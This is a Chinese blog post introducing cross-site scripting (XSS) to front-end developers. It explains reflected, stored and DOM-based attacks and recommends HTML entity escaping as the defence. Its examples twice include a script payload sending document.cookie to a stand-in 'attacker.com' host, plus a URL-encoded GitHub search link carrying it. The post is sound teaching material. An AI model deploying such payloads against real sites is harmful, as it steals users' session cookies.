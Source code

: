 ```yaml
---
title: XSS攻击
tags:
  - xss
  - web security
categories:
  - Web Security
date: 2017-09-20 16:49:53
---
```

作为一名前端开发，了解些常见的web安全问题是非常必要的，这里介绍下被提起最多的`XSS`

### XSS是什么

XSS攻击全称跨站脚本攻击 Cross Site Scripting，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS

### XSS攻击会造成哪些危害

XSS攻击最常见的就是获取用户的cookie，session等敏感信息，这些信息一般保存着用户登陆状态等信息，攻击者拿到这些就可以登陆被攻击者的账户，至于登陆后可以做的事。。就不展开了

除了对用户账号安全产生威胁之外，XSS攻击还会对网站本身造成危害，比如持续向服务器发送请求，DDos攻击等等

### XSS攻击的类型

#### 基于反射的攻击（非持久化）

基于反射的XSS攻击一般是服务器端根据用户的输入或者查询条件返回了带有恶意脚本的结果并在客户端执行

比如我们在github的搜索框中输入
`<script src='attacker.com?cookie=' + document.cookie></script>`

页面会返回：

{% asset_img githubXSSTest.jpg githubXSSTest %}

如果这句代码在页面中被当作html语句进行处理(github中对返回的语句进行了处理)，那么在页面渲染的时候，`'attacker.com?cookie=' + document.cookie`就会被执行，结果显而易见，我们的cookie被泄漏了

如果我们被别人引导，点击了下面的链接，恰好该网站没有做XSS相关的处理，我们的cookie就在被点击的瞬间被泄漏了

`https://github.com/search?utf8=%E2%9C%93&q=%3Cscript+src%3D%27attacker.com%3Fcookie%3D%27+%2B+document.cookie%3E%3C%2Fscript%3E&type=`

#### 基于存储的攻击（持久化）

基于存储的攻击也是项目标网站注入可执行样本，攻击者的恶意代码会被存储到网站服务器上，这种漏洞常见于存在于评论系统中。

当我们提交的评论中包含了恶意代码之后，被存储到数据库中，别人看帖时，我们的评论就会被读取展示出来，这时候如果网站存在XSS漏洞，我们提交的恶意代码就会被执行，结果也是cookie泄漏

#### 基于DOM的攻击（非持久化）

基于DOM的攻击和基于反射的攻击非常相像

我们在开发过程中，经常会通过链接将参数从一个页面带到另外一个页面，比如 `xxxxxx.qunar.com?depStation=北京`，在页面加载的时候，将depStation的值取出，填充到某 DOM元素中

如果将北京替换成
`<script src='attacker.com?cookie=' + document.cookie></script>`

在存在XSS漏洞的网站中，这句代码会被执行，结果就是cookie泄漏

### 如何防御XSS漏洞

从上文列举的 XSS 恶意输入可以看到，这些输入中包含了一些特殊的 HTML 字符如 "<"、">"。当传送到客户端浏览器显示时，浏览器会解释执行这些 HTML 或JavaScript 代码而不是直接显示这些字符串。< > & “ 等字符在HTML语言中有特殊含义，对于用户输入的特殊字符，如何直接显示在网页中而不是被浏览器当作特殊字符进行解析?

HTML字符实体由 & 符号、实体名字或者 # 加上实体编号、分号三部分组成。以下为 HTML 中一些特殊字符的编码。有的字符实体只有实体编号，没有对应的实体名字，譬如单引号。

· `&` 转成 `&amp;`
· `“` 转成 `&quot;`
· `<` 转成 `&lt;`
· `>` 转成 `&gt;`
· `‘` 转成 `&#39;`
